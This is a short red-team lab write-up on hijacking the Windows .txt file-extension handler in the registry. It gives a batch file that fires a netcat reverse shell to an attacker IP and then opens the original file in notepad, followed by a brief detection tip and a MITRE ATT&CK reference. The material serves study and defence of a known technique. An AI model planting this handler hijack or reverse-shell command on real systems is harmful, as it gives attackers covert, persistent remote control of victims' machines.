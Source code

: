# Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension \(among many others\) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened. 

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](../../.gitbook/assets/image%20%28111%29.png)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](../../.gitbook/assets/image%20%28225%29.png)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\\tools\\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](../../.gitbook/assets/image%20%28483%29.png)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](../../.gitbook/assets/image%20%28430%29.png)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}

